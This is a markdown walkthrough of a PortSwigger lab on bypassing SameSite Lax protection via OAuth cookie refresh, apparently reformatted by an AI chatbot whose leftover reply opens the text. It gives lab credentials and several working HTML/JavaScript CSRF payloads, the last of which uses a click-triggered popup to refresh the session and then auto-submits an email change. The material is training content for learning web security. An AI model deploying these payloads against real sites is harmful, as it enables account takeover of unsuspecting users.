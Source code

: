 # Lab 10: SameSite Lax bypass via cookie refresh

Perfect ✅ Let’s transform this **CSRF (Change Email with OAuth Login)** lab into a **colorful, GitHub/Notion-style documentation** with icons, emojis, and structured steps.

Here’s your polished version:

---

# 🧪 Lab: CSRF Attack via **Change Email Function** (OAuth Login)

This lab's **change email function** is vulnerable to **CSRF**.

To solve the lab, perform a **CSRF attack** that changes the victim's email address.

👉 You must use the **provided exploit server** to host your attack.

---

## 🔑 Login Info

- **OAuth login supported**
- Use the following credentials to log in:

```
wiener:peter
```

---

## 📝 Notes & Hints

⚠️ **SameSite Restrictions**

- Chrome defaults to **Lax**, so use **Chrome** (or Burp's Chromium browser) for testing.

💡 **Hints**:

- You cannot use an email that is already registered.
- For the final exploit, ensure you use a **unique email address**.
- Popups are blocked unless triggered by **user interaction (e.g., click)**.

Example:

```html
<script>
    window.onclick = () => {
        window.open('about:blank')
    }
</script>
```

---

## ⚙️ Solution

---

## 🔹 Step 1 - Study the Change Email Function

1. In Burp’s browser → Login via **OAuth**.
2. Change your email address.
3. In **Burp Proxy > HTTP history** → Look at:
    
    ```
    POST /my-account/change-email
    ```
    
    - ✅ No unpredictable tokens → vulnerable to CSRF.
4. Check `GET /oauth-callback?code=[...]` →
    - Session cookies have no SameSite specified → Default **Lax** applies.
    
    ![2025-09-02_10-43.png](LabImg/2025-09-02_10-43.png)
    
    ![2025-09-02_10-43_1.png](LabImg/2025-09-02_10-43_1.png)
    
    ![2025-09-02_10-43_2.png](LabImg/2025-09-02_10-43_2.png)
    
    ![2025-09-02_10-43_3.png](LabImg/2025-09-02_10-43_3.png)
    
    ![2025-09-02_10-45.png](LabImg/2025-09-02_10-45.png)
    
    ![2025-09-02_10-47.png](LabImg/2025-09-02_10-47.png)
    
    ![2025-09-02_10-49.png](LabImg/2025-09-02_10-49.png)
    
    ![2025-09-02_10-50.png](LabImg/2025-09-02_10-50.png)
    
    ![2025-09-02_10-52.png](LabImg/2025-09-02_10-52.png)
    
    ![2025-09-02_10-53.png](LabImg/2025-09-02_10-53.png)
    
    ![2025-09-02_10-53_1.png](LabImg/2025-09-02_10-53_1.png)
    

---

## 🔹 Step 2 - Attempt a CSRF Attack

On the **exploit server**, use a basic CSRF payload:

```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

- Store & view the exploit yourself.

👉 Outcomes:

- ⏱ If logged in **<2 minutes ago** → attack works.
- ⏱ If logged in **>2 minutes ago** → OAuth refresh occurs → attack fails.
    
    ![2025-09-02_10-54.png](LabImg/2025-09-02_10-54.png)
    
    ![2025-09-02_11-03.png](LabImg/2025-09-02_11-03.png)
    
    ![2025-09-02_11-04.png](LabImg/2025-09-02_11-04.png)
    

---

## 🔹 Step 3 - Bypass SameSite Restrictions

Notice:

- Visiting `/social-login` → automatically triggers OAuth flow.
- Each OAuth flow issues a **new session cookie**.

So update the exploit:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

⚠️ Problem: Popup blocked if no **user interaction**.

![2025-09-02_11-07.png](LabImg/2025-09-02_11-07.png)

![2025-09-02_11-14.png](LabImg/2025-09-02_11-14.png)

![2025-09-02_11-14_1.png](LabImg/2025-09-02_11-14_1.png)

---

## 🔹 Step 4 - Bypass Popup Blocker

Update exploit to **require a click**:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>👉 Click anywhere on the page 👈</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

✅ Flow:

- Victim clicks page → OAuth flow refreshes session.
- After 5s → CSRF **auto-submits** → email changed.
    
    ![2025-09-02_11-35.png](LabImg/2025-09-02_11-35.png)
    
    ![2025-09-02_11-39.png](LabImg/2025-09-02_11-39.png)
    
    ![2025-09-02_11-41.png](LabImg/2025-09-02_11-41.png)
    

---

## 🎯 Final Steps

- Confirm email change in your own account.
- Update exploit email to something different from your own.
- Deliver exploit to victim → 🏆 **Lab Solved**.
    
    ![2025-09-02_11-41_1.png](LabImg/2025-09-02_11-41_1.png)
    

---

## 🎥 Community Solutions

- 🔗 [Lab Walkthrough](https://www.youtube.com/watch?v=x1Q8PlEispU)